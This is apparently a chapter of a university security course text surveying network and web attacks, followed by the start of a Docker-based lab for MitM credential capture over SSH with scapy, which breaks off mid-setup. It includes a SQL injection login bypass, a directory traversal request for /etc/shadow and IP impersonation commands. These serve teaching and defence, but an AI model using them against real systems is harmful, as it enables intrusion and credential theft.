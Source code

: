 = Attacks

== Interception Attacks

Interception attacks rely on the ability to intercept network communications.
This may be due to the nature of the network being used or sometimes other methods may leveraged to better position the attacker.
These attacks generally involve forging fictitious messages, recording transmitted data, or altering the contents of messages while on a network.
This family of attacks places all parts of the CIA triad at risk.

=== MitM

[svgbob, mitm, float=right, width=400]
....
.-----------.                         .------------.
|   User    | <- - - - - X - - - - -> | Web Server |
'-----------'     "Old Connection"    '------------'
     ^                                       ^
     |         .-------------------.         |
     +-------> | Man in the Middle | <-------+
               '-------------------'
                   New Connection
....

A man in the middle attack (MitM) is a blanket term applied when an attacker is intercepting communication.
A typical attack involves eavesdropping and possibly modifying messages between two parties.
Encryption can be used to mitigate the attack, making it impossible for an attacker to decrypt the messages they are intercepting.
That being said, particular attention must be paid to the handshaking/key exchange protocol to be sure that an attacker does not gain access to the key(s) being used.
What follows is an example of MitM being used to intercept and modify the public key exchange:

[svgbob, mitm-keys, width=500, align=center]
....
.-----.                                                 .-----.
| Bob |                                                 |Alice|
'--+--'                                                 '--+--'
   |    Send me your public key so I can send a secret     |
   |------------------------------------------------------>|
   |                                                       |
   | My public key is WXGZ .------.  My public key is ABCD |
   |<----------------------| MitM |<-----------------------+
   |                       '---+--'                        |
   |"Secret (encrypted w/WXGZ)"|"Secret (encrypted w/ABCD)"|
   |-------------------------->|-------------------------->|
....

In the above example the MitM allows the first message to pass unmolested, but tampers with the exchange of the public key.
By passing it's own public key to Bob, the MitM has to ability to decrypt the messages that Bob sends and can still use Alice's public key to re-encrypt the messages at pass them to her.
You can see how if two public keys are exchanged in this manner it would be possible to set up a MitM attack where despite encryption all messages can be seen.

=== MitB

MitB stands for man in the browser and is typically caused by a trojan installing malware that allows the attacker to intercept/modify communications between the browser and the server.
This can be used to capture data on forms, modify input, or modify the response from the server.
Often the software used in MitB attacks lays dormant until the victim browses to a targeted website.
What follows is an example of how a MitB attack can be used to modify an online banking request to send money:

[plantuml, mitb, svg, width=900, align=center]
....
@startuml
skinparam Shadowing false
skinparam RectangleBackgroundColor White
skinparam RectangleBorderColor White
skinparam defaultTextAlignment center
skinparam componentArrowColor Black

!include <tupadr3/common>
!include <tupadr3/font-awesome/server>
!include <tupadr3/font-awesome/user>
!include <tupadr3/font-awesome/laptop>
!include <tupadr3/font-awesome/chrome>
!include <tupadr3/font-awesome/user_secret>

FA_USER(user, User)
FA_LAPTOP(workstation, Workstation)
FA_CHROME(browser, Browser)
FA_USER_SECRET(attacker, Attacker)
FA_SERVER(server, Web Server)

user -> workstation: malware downloaded to workstation
attacker <--> browser
browser -> workstation: approved $1,000
workstation -> browser: transfer $1,000
browser -> server: transfer $10,000 to Attacker
server -> browser: approved $10,000 to Attacker
@enduml
....

As you can see the attacker ended up with $10,000 and the victim simply thought they authorized a payment of $1,000 to someone else.
These attacks can be difficult to detect because they take place within the browser and are opportunistic.

=== Replay Attacks

This family of attacks typically involves a MitM making a copy of the transmission and _replaying_ it to impersonate the victim.
Logon credentials, simple hashes, and specific commands are sometimes susceptible to this type of attack.
The solution is to use timestamps, nonces (random number for that particular session), rotating keys, or a counter to make sure commands cannot be executed outside of context.

.One-time Passwords
****
To help mitigate replay attacks, an online banking application may require that client use a one-time password (OTP) when submitting transactions.
An OTP is a frequently changing value that is known to both the client and the server.
Several one-time password schemes exist, most of which make use of a cryptographic hash function with a shared seed between client and server.
Periodically the client and server update to a new hash based on the seed and without the seed it is impossible to know what the next hash will be.
By using an OTP anyone who intercepts the traffic will not be able to perform a replay attack as the password will not be current.
****

=== SSL Circumvention

.MitM preventing HTTPS upgrade and skimming passwords
[svgbob, ssl-mitm, width=500, float=right]
....
.--------.                   .----------.                  .---------.
| Victim |                   | Attacker |                  | "Server"|
'---+----'                   '-----+----'                  '----+----'
    |                              |                            |
    |    "GET http://njit.edu"     |                            |
    |----------------------------->|                            |
    |                              |   "GET http://njit.edu"    |
    |                              |--------------------------->|
    |                              |                            |
    |                              |        "301 Moved"         |
    |                              |<---------------------------|
    |                              |                            |
    |                              |   "GET https://njit.edu"   |
    |                              |--------------------------->|
    |                              |                            |
    |                              |       "200 OK (HTTPS)"     |
    |                              |<---------------------------|
    |        "200 OK (HTTP)"       |                            |
    |<-----------------------------|                            |
    |                              |                            |
    |    "POST http://njit.edu"    |                            |
    |       "username=admin"       |                            |
    |       "password=admin"       |                            |
    |----------------------------->|                            |
    |                              |   "POST https://njit.edu"  |
    |                              |       "username=admin"     |
    |                              |       "password=admin"     |
    |                              |--------------------------->|
    |                              |                            |
    |                              |<---------------------------|
    |                              |                            |
    |<-----------------------------|                            |
....

If you think about the intercepted key exchange given in the above MitM example, a similar attack can allow attackers to view SSL traffic.
The attacker gives the victim a bogus certificate authority (CA) certificate which the victim installs.
This is often accomplished via a trojan.
Then the attacker places themselves in the middle of an uninitiated secure connection.
During the key exchange the attacker creates a custom certificate signed by a bogus CA for the connection between attacker and victim.
The attacker also makes an actual HTTPS connection to the service and proxies data for the victim.
All of the victims data will show up in plaintext for the attacker but the connection will appear to be secure for the victim. 
This is used in the https://www.telerik.com/fiddler[Fiddler] debugging proxy to decrypt HTTPS traffic and is also used in some network appliances that perform deep packet inspection.

Another MitM attack on SSL is simply to maintain or downgrade to an HTTP connection with the victim and proxy data to an actual HTTPS connection with the server.
Most servers will upgrade an insecure connection, but by intercepting that exchange the attacker can continue to monitor the victim's traffic.

== Network Layer Attacks

=== MAC Spoofing/MAC Cloning

Most networks expect that a MAC address will correspond to the unique numbers on a network interface controller (NIC), but it is actually quite easy to change.
Virtual networking necessitates the ability to use a different MAC address and this feature is built into most modern operating systems.
MAC spoofing is when an attacker sets their MAC address to the MAC address of another machine on the network in an effort to initiate an attack.
For example, them may set themselves up as a gateway to launch a MitM attack.

=== MAC Flooding

Switches are tasked with keeping track of which MAC addresses correspond to which ports on the switch.
They use this to make sure that traffic is only routed where it needs to go.
Given that MAC addresses can be changed, an attacker could flood a switch with packets from many different MAC addresses and possibly overflow the MAC-port routing table.
Some switches may default to hub-like functionality and send frames to all ports in an effort to keep traffic flowing.
This then allows an attacker to capture traffic from other machines on the network.

=== ARP Poisoning

[.float-group]
--

image::arp.svg[width=500, float=left]

An attacker may also use ARP packets to impersonate another machine on the network, such as a gateway router.
By repeatedly sending out ARP packets, _gratuitous arp_, redirecting packets bound for the gateway's IP to the attackers MAC address an attacker can set up a MitM scenario.
This is particularly difficult because depending on the TTL of the ARP cache it may take up to 20 minutes for normal network operations to resume.

--

== Internet Layer Attacks

=== IP Spoofing

[.float-group]
--

[svgbob, ip-header, width=500, float=left]
....
|<-------------------------- 32 bits --------------------------->|
+------+-------+----------------+--------------------------------+
| Vers |  IHL  |      TOS       |          Total Length          |
+------+-------+----------------+-------+------------------------+
|       Identification          | Flags |    Fragment Offset     |
+--------------+----------------+-------+------------------------+
| Time to Live |     Protocol   |        Header Checksum         |
+--------------+----------------+--------------------------------+
|   Totally legitimate source address, I'm not lying I swear     |
+----------------------------------------------------------------+
|           Victim, err I mean Destination address               |
+----------------------------------------------------------------+
|                                                                |
                             Options                               
|                       (up to 40 bytes)                         |
+----------------------------------------------------------------+
|                                                                |
                              Data
|                     (up to 65536 bytes)                        |
+----------------------------------------------------------------+
....

Unfortunately Internet Protocol (IP) was not designed with security in mind.
This means that by default any IP address can be put in the packet header and the packet will still be forwarded to the network.
This leads to issues where an IP can be _spoofed_ and malicious packets sent out.
At this layer there really aren't any good solutions to this problem.
This means that the sources of packets often need to be authenticated in higher layers and protocols must take into account the fact that the IP layer is fundamentally insecure.

--

.Smurf Attack
****

.https://commons.wikimedia.org/wiki/File:Ataque_Smurf_DDoS.png[Smurf DDos Attack] by https://www.imperva.com/learn/ddos/smurf-attack-ddos/?redirect=Incapsula[Imperva Incapsula] used under https://creativecommons.org/licenses/by-sa/4.0/deed.en[CC-BY-SA 4.0]
image::smurf.png[width=600, align=center]

The Smurf attack is a great example of how spoofed IP addresses can lead to major problems. 
The Smurf attack is an early type of Distributed Denial of Service attack.
An attacker would create an ICMP echo request with the victims IP address as the source address.
This echo request would be directed at a broadcast IP address for a subnet.
Many of the clients on the subnet would respond the echo request, flooding the victim with responses.
The asymmetric nature of this attack, a single packet prompting possibly hundreds of responses, made it particularly hard to deal with.
Using a Smurf attack, an attacker could keep a victim _pinned down_ with minimal bandwidth required on their end.
Modern clients no longer respond to ICMP echo requests directed at the broadcast, mitigating the risk of this kind of attack.
****

== Name Resolution Attacks

=== DNS Cache Poisoning

A DNS resolved can be tricked into caching incorrect information and serving it to other clients.
In this scenario an attacker assumes the role of the authoritative DNS server by responding to a DNS query with a forged source IP.
One of the reasons this is possible is because DNS query responses are often single, unauthenticated packets.
Once the server has the invalid DNS cache entry it will continue to direct users to the incorrect IP address for the TTL of the entry.
https://cloud.google.com/dns/docs/dnssec[DNSSEC] can be used to mitigate these attacks by forcing authentication on DNS answers. 

=== LLMNR Hijacking

In this scenario an attacker responds to a Link-Local Multicast Name Resolution (LLMNR) broadcast and impersonates an authentication server.
The unexpecting victim fills in their credentials, which are promptly stolen.
This attack can be mitigated by disabling LLMNR on the network.

== Web-based Attacks

The world wide web and the protocols/formats/languages it uses (HTTP, HTML, JavaScript, etc.) were _not_ originally designed with security in mind.
By default, web pages trust the content they receive to not be malicious.
Scripts, commands, cookies, etc. are implicitly trusted.
Web technologies have become so popular that they are a common target for attackers and developers must use tokens, sanitize data, and check inputs if they want those technologies to be secure.

https://owasp.org/[The Open Web Application Security Project (OWASP)] is a great source of resources for web application security.
They maintain a top 10 list of web application security risks. As of 2021, the https://owasp.org/www-project-top-ten/[OWASP top 10] is:

* Broken Access Control
* Cryptographic Failures
* Injection
* Insecure Design
* Security Misconfiguration
* Vulnerable and Outdated Components
* Identification and Authentication Failures
* Software and Data Integrity Failures
* Security Logging and Monitoring Failures
* Server-Side Request Forgery

=== XSS

Cross-Site scripting refers to the process by which a bad actor can inject a script into a website.
Recall that many websites take inputs from forms and may later display that data on another page.
If that data isn't just data, but actually a JavaScript script, that script may run on the page that displays it.

Using this technique attackers can access cookies, session tokens, and other sensitive information.
Depending on where the script was injected and how the server displays that data the script could be stored permanently on the target server.
XSS scripts may also be reflected, typically sent in links, where they are only used for one session.

To mitigate XSS risks, it is important that a web developer sanitize their inputs.
When a form is submitted, the website should check that the data submitted isn't a script or other malicious content.
If the data does cannot be cleaned, it shouldn't be stored or used.

.Samy Worm
****
One October 4th, 2005 an XSS worm spread across MySpace, the dominant social network at the time.
The worm was written by Samy Kamkar as a simple post that when read would cause a viewers machine to make their own post stating "but most of all, samy is my hero" and including the code to propagate.
The results was that within 20 hours over one million users had run the payload.

Now Samy is a prominent security consultant and you can read https://samy.pl/myspace/tech.html[his full technical explanation of the worm here].
Vice Motherboard also did a segment on Samy for their https://www.youtube.com/watch?v=DtnuaHl378M[_Greatest Moments in Hacking History_ series].
****

=== CSRF

Cross-Site Request Forgery (CSRF) involves using an victims already authenticated session in a request that is not part of that session.
Imagine you are logged into Twitter.
An attacker sends you a form link in GMail, that when clicked on posts a tweet that says, "I'm a CSRF victim."
Assuming Twitter accepts the form submission you will now have a tweet in your timeline that states "I'm a CSRF victim."

This is probably the most benign scenario, you can imagine things be much worse with an online banking application.
The solution is for the website (Twitter in this case) to use a CSRF token (which it does).
When the form is generated, a random value is included as a hidden input.
That random, hidden input is the CSRF token.
When a submission is made, if the CSRF token submitted does not match the one created for the form (which only the valid website knows) the submission is not accepted.

CSRF tokens are yet another example of how web applications require proactive security as opposed to being secure by design.
Most web apps are employing them, but it can be easy for a developer to forget.

=== SSRF

[svgbob, ssrf, align=center]
....
<---------------------------- Internet ---------------------------> | <----------- Intranet ---------------->
                                                                    
                                                                    |
.----------. "GET https://example.com/id?content=http://10.0.0.1/secret"   .-----------. Request  .--------.
|          | ------------------------------------------------------------> |           | -------> |        |
| Attacker | "Response: secret"                                            |example.com| Response |10.0.0.1|
|          | <------------------------------------------------------------ |           | <------- |        |
'----------'                                                        |      '-----------'          '--------'

                                                                    |
....

Web systems often communicate with internal servers the retrieve information.
These may be API servers, databases, or messaging servers.
If an attacker can fool a web server into passing a malicious request to its internal server, the attacker and abuse the internal trust of the system.
This is referred to a server-side request forgery (SSRF).
Once again, this kind of attack is mitigated with input validation, which needs to be included in the application.

=== Session Hijacking

Session hijacking may involve other methods of compromise, but the end goal is to "steal" a session between the victim and another server.
Imagine the following scenario: A person logs in to their personal banking website, which issues them a cookie which proves they are authenticated.
A bad actor is monitoring the connections through an XSS exploit that forwards all connection cookies to them.
The bad actor uses the cookie that was issued to make a transfer from the user's bank account to the bad actors bank account.

Depending on the method used, session hijacking may be prevented through use of a better session key or by requiring transport layer security (TLS) to connect.
In the above scenario the only way to prevent session hijacking would be to repair the initial XSS vulnerability.

=== SQL Injection

As mentioned in the SSRF section, almost all web systems are supported by other servers running internally.
One of the most common scenarios is to have a web server which reaches out to an internal database.
Relational databases utilize structured query language (SQL) so a web application may generate many different SQL queries during its regular operations.
If a user input is placed directly into the query, it can be possible to make the result function in a way that was not intended or yield secret information from the database.

Take a look at the following PHP code:

[source, php]
----
$userName = $_POST['user_name']
$pw = $_POST['password']
$statement = "SELECT * FROM users WHERE name='" + $userName + "' AND password='" + $pw + "';"
----

In the case where the user_name `admin` and the password `password` were submitted, the following SQL would be generated: `SELECT * FROM users WHERE name='admin' AND password='password';`

In the case where the user_name `admin` and the password `' OR 1=1;` were submitted, the following SQL would be generated: `SELECT * FROM users WHERE name='admin' AND password='' OR 1=1;`

In this second case, a user could login without needing a valid password.

=== XML Injection

XML stands for extensible markup language, and it is often used to transfer messages.
XML can be an important part of a web systems infrastructure and as such if unsanitized user inputs are allowed to generate XML the is used in the system many things can go wrong.
Using XML injection an attacker may be able to retrieve secret files or create admin accounts.
XML injection can be mitigated by input validation or possibly disabling the resolution of external entities in the framework being used.

=== LDAP Injection

Finally, Lightweight Directory Access Protocol (LDAP) is often used to store information about users.
As such, it can be found behind many web applications.
LDAP also supports complex queries in a similar fashion to SQL.
An unsantized user input can lead to a LDAP query with unexpected results.

=== Directory Traversal

A poorly designed web server may be subject to a directory traversal attack.
Recall that web servers are designed to serve static content from a particular directory, `/var/www` for example.
Now suppose that an attacker submitted a `GET` request for `http://www.example.com/../../etc/shadow`.
It is possible that the web server may actually go up two directories and serve that file.

This can be addressed with file permissions, access controls, and filtering incoming requests.
It is important to note that there is more than one way to specify a path in an HTTP request, including using URL encoding, so all possible malicious inputs must be sanitized. 

=== URL Hijacking/Typosquating

An unfortunately common, broad-based attack is to buy a domain with a similar name to a very popular domain.
When users mistype the popular domain they end up at the malicious actor's website.
For example, imagine if someone registered `gooogle.com` (note the three o's).
They could gain a lot of traffic from people who mistyped google.

These sites could be used for ad revenue, phishing credentials, or even possibly to distribute malware.
A mitigation that several browsers implement is to keep a list of malicious websites and warn users before they visit them.

=== Domain Hijacking

Domain names expire after a certain period of time and the registrant may forget to renew.
In these rare occasions an attacker may actually gain control of a popular domain name, google.com for example, and route traffic to their site.
The malicious activities are the same as for typosquating, but the attacker does not need to rely on the users making a mistake.

It is also possible to hijack a domain by logging into the domain registration system using stolen/compromised credentials.
In this scenario an attacker could still modify a record to point to their server, but wouldn't have to rely on the company forgetting to renew.

=== Zone Transfer Attacks

On the subject of the domain name system, zone transfer attacks may leak sensitive information about domains. 
DNS is a distributed system by design and is used for resolving domain names into IP addresses.
Due to the distributed nature of the system, protocols were built in for having a single domain served by multiple servers.
These servers pass information to each other using a DNS zone transfer.

Typically these communications should be internal as they may leak valuable information regarding the zone.
Unfortunately an improperly configured DNS server may advertise its zone transfers publicly.
https://digi.ninja/projects/zonetransferme.php[In such a situation an attacker can use the leaked information in the recon phase of an attack.]

=== Clickjacking

A website may be designed in such a way that the interface is confusing to the user and they inadvertently click on an advertisement or malicious link.
This is common practice on low integrity websites such as streaming sites, torrent trackers, and adult websites.
It is often complicated by a poor ad screening or even purposefully making ads that look similar to the content.

== Outcomes

=== Remote Code Execution (RCE)

One of the most dangerous outcomes of an attack is Remote or Arbitrary Code Execution.
RCE gives the attacker the ability to execute any instructions they want on the compromised machine.
Often the attacker will start a shell with administrative privileges so they can do whatever they want.
Imagine SSHing into a remote Linux machine and elevating your privileges to root.
This is essentially the type of power that can result from RCE.
Attackers may also use the RCE to attack the availability of a computing resource by causing a program to terminate.
In this situation the RCE is being used as part of a denial of service (DoS) attack.

=== Privilege Escalation

[quote, Anonymous]
There is no elevator to root, you have to use an exploit.

[svgbob, escalation, width=200, float=left]
....
            ^
           /    +------+
          /     |      |
         /      |      |
        /       |Super |
       /        |Admin |
      /  +------+      |
     /   |      |      |
    /    |      |      |
   /     |Admin |      |
  /+-----+      |      |
 / |User |      |      |
/  +-----+------+------+
....

Privilege escalation involves gaining access to protected resources through unintended means.
An example would be https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-4034[CVE-2021-4034], a local privilege escalation vulnerability recently discovered in the Linux `pkexec` command.
`pkexec` runs with elevated privileges and does not safely parse command line arguments.
As such it can be exploited to give a regular user a root shell.
This would be an example of local, vertical privilege escalation.

Privilege escalation is typically broken into two categories: horizontal and vertical.
Horizontal privilege escalation gives similar access to resources, ie. moving from one user account to another.
Vertical privilege escalation gives higher level access, ie. moving from a user account to an admin account.
The five main ways privilege escalation is achieved are credential exploitation, vulnerabilities/exploits, misconfigurations, malware, and social engineering.

=== Denial of Service (DoS)

A denial of service attack (Dos) attempts to keep a system from working by overwhelming it with requests.
A distributed denial of service attack (DDoS) does the same thing by utilizing many different machines.
Typically the attacking nodes for a DDoS attack are members of a botnet, machines that have been exploited previously and are under the attackers control.

DoS attacks can take many forms including:

SYN Floods:: A malicious actor can send multiple SYN packets to initiate the TCP three-way handshake. SYN packets are easy to send, but may cause significant resources to be allocated on the server responding to them. Due to the asymettric nature of resource allocation this makes the use of SYN packets particularly suited to DoS attack. https://en.wikipedia.org/wiki/SYN_cookies[SYN cookies] can be used to help prevent this kind of attack.

ICMP Floods:: Often referred to as pinging, ICMP echo requests can be used to overwhelm a server. Especially when sent from multiple sources. The solution is typically to rate limit ICMP packets on the server.

Buffer Overflows/Exploits:: Poorly designed software may fail when it receives unexpected data. This could be something as simple as sending more data than a buffer can hold, or https://en.wikipedia.org/wiki/WinNuke[setting the urgent pointer (URG) on a packet destined for port 139 of a Windows system].

== Lab: MitM with Scapy

In this lab we will use a fake SSH server, https://github.com/jaksi/sshesame[sshesame], and an interactive packet manipulation program, https://scapy.net/[scapy], to disrupt an ongoing SSH session between victim and server, position ourself in the middle of the traffic, and capture the username and password victim is using.

.IP Addresses Used
[width=50%, float=right]
|===
|Name|IP Address

|server|172.20.0.5
|victim|172.20.0.6
|attacker|172.20.0.7

|===

For this lab our IP addresses are configured statically and are known to the attacker.
It is also assumed that the attacker is on the local network.
Lastly victim has been poorly configured to ignore changes to the host key.
This is not entirely unreasonable as many users just ignore the warnings and clear out the known_hosts file when prompted anyway.

Start by downloading the https://github.com/rxt1077/it230/raw/main/labs/scapy.zip[scapy.zip] file which contains the Docker Compose configuration we will be using.
Uncompress it to a directory where you have write access.
This lab will require us to use three terminal windows/tabs: one for the `docker-compose up` command which will show the output of everything running in the background, one for the victim which will show an SSH session with the server, and one for the attacker which we will use to make the attack.

[svgbob, scapy, width=800, align=center]
....
          "docker-compose up"                            "victim" 
.-------------------------------------.   .-------------------------------------.
|                                 - X |   |                                 - X |
+-------------------------------------+   +-------------------------------------+
|                                     |   |                                     |
| "$ docker-compose up"               |   | "$ ssh server"                      |
|                                     |   |                                     |
|                                     |   |                                     |
|                                     |   |                                     |
'-------------------------------------'   '-------------------------------------'

                                  "attacker"
                    .-------------------------------------.
                    |                                 - X |
                    +-------------------------------------+
                    |                                     |
                    | "$ scapy"                           |
                    | ">>>"                               |
                    |                                     |
                    |                                     |
                    '-------------------------------------'
....

Open three terminals and `cd` into the directory where you uncompressed the lab zip file in each of them.
There should be a `docker-compose.yml` file and `server`, `victim`, and `attacker` directories in the directory you are in.

In the first terminal run the `docker-compose up` command to build the images and run the containers:

.docker-compose up
[source, text]
----
PS C:\Users\rxt1077\it230\labs\scapy> docker-compose up
Creating network "scapy_testnet" with the default driver
Creating scapy_server_1   ... done
Creating scapy_victim_1   ... done
Creating scapy_attacker_1 ... done
Attaching to scapy_victim_1, scapy_server_1, scapy_attacker_1
server_1    | > Starting SSHD
server_1    | >> Generating new host keys
scapy_victim_1 exited with code 0
attacker_1  | INFO 2021/10/07 13:56:45 No host keys configured, using keys at "/root/.local/share/sshesame"
attacker_1  | INFO 2021/10/07 13:56:45 Host key "/root/.local/share/sshesame/host_rsa_key" not found, generating it
attacker_1  | INFO 2021/10/07 13:56:45 Host key "/root/.local/share/sshesame/host_ecdsa_key" not found, generating it
attacker_1  | INFO 2021/10/07 13:56:45 Host key "/root/.local/share/sshesame/host_ed25519_key" not found, generating it
attacker_1  | INFO 2021/10/07 13:56:45 Listening on [::]:22 <1>
server_1    | ssh-keygen: generating new host keys: RSA DSA ECDSA ED25519
server_1    | >>> Fingerprints for dsa host key
server_1    | 1024 MD5:a5:e6:e9:38:d2:2e:88:fd:f0:aa:a8:05:07:35:5f:18 root@a010fe3c2f3c (DSA)
server_1    | 1024 SHA256:NM7DONpt1doZp4e6WV+6WVVr+KUrh9luUSRcAhnzdyw root@a010fe3c2f3c (DSA)
server_1    | 1024 SHA512:LHfFdSk1XiAKQArH0CW+RkaKv5GgovPCH7UIQ+P4T2LbgGpCBP5aGA1V3oriYbTZWuS9TlUgDbEfTBq19AV/cA root@a010fe3c2f3c (DSA)
server_1    | >>> Fingerprints for rsa host key
server_1    | 3072 MD5:74:44:b6:a2:74:b9:7e:1b:ba:3d:27:b8:19:3a:48:df root@a010fe3c2f3c (RSA)
server_1    | 3072 SHA256:mubm9mLNrdNDk5fyj0dghDBIbbwcVKXo23Qdv61/S/c root@a010fe3c2f3c (RSA)
server_1    | 3072 SHA512:JFQhS6trY7sNqRSwZ+t0uyBb5ddNh9qSLtBrMaa5G7xWzKHpxCuKBSDbvLk4W9JKeQftTU4293UDV9vqCcf/6w root@a010fe3c2f3c (RSA)
server_1    | >>> Fingerprints for ecdsa host key
server_1    | 256 MD5:15:75:5f:9b:72:7c:f0:13:ea:0d:b4:47:b7:62:69:63 root@a010fe3c2f3c (ECDSA)
server_1    | 256 SHA256:4p/Afp/8C2tHn7AePdS7OHCgPxfBamdaLIUg4IJ7xx4 root@a010fe3c2f3c (ECDSA)
server_1    | 256 SHA512:NnbevqBXFkGQWIirdFsLPnX85q7q/1Y7E4i+BLHLqE3cg2aqkduBJsssyr9+G7bSvq7txvjl9SRmyRAzuDT7DQ root@a010fe3c2f3c (ECDSA)
server_1    | >>> Fingerprints for ed25519 host key
server_1    | 256 MD5:ad:00:61:26:4d:a0:07:be:6b:8e:91:bd:f0:65:e6:14 root@a010fe3c2f3c (ED25519)
server_1    | 256 SHA256:Vl7jQulDsONglP1xbSN+J8nSfCaIER40rHhgy7z/BYg root@a010fe3c2f3c (ED25519)
server_1    | 256 SHA512:WkmvOWe6oaZ/qE1ZiA0rZAjn9H+hCDxI8NHpsjRNCalK/CgVV9+VhkzHgRTKfKTqQeE0y/Zz2GaEJGv/sapCHg root@a010fe3c2f3c (ED25519)
server_1    | WARNING: No SSH authorized_keys found!
server_1    | >> Unlocking root account
server_1    | WARNING: password authentication enabled.
server_1    | WARNING: password authentication for root user enabled.
server_1    | >> Running: /etc/entrypoint.d/changepw.sh
server_1    | Running /usr/sbin/sshd -D -e -f /etc/ssh/sshd_config
server_1    | Server listening on 0.0.0.0 port 22. <2>
server_1    | Server listening on :: port 22.
----
<1> Notice that attacker has a fake SSH server running in the background
<2> Notice that server has a legitimate SSH server running in the background

In the second terminal run `docker-compose run victim bash` and then from the prompt we'll SSH to server using the password "password":

.victim
[source, text]
----
PS C:\Users\rxt1077\it230\labs\scapy> docker-compose run victim bash
Creating scapy_victim_run ... done
bash-5.0# ssh server
Warning: Permanently added 'server,172.20.0.5' (ECDSA) to the list of known hosts.
root@server's password: <1>
You are now logged into 'server' (presumably from 'victim') via SSH for this assignment.
Leave this connection open while you experiment with scapy from 'attacker'.
bf9ebe42a108:~#
----
<1> The password is "password"

In the third terminal we'll start by _executing_ (recall that at this point it's already running sshesame in the background) a BASH shell on attacker and configuring it to accept packets not only for its own IP address, but also for the server's IP address.
Once traffic is routed to us, this will allow attacker to also respond to packets destined for 172.20.0.5.

.attacker
[source, console]
----
PS C:\Users\rxt1077\it230\labs\scapy> docker-compose exec attacker bash
root@5195de3d330c:/# ip addr add 172.20.0.5 dev eth0
root@5195de3d330c:/# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
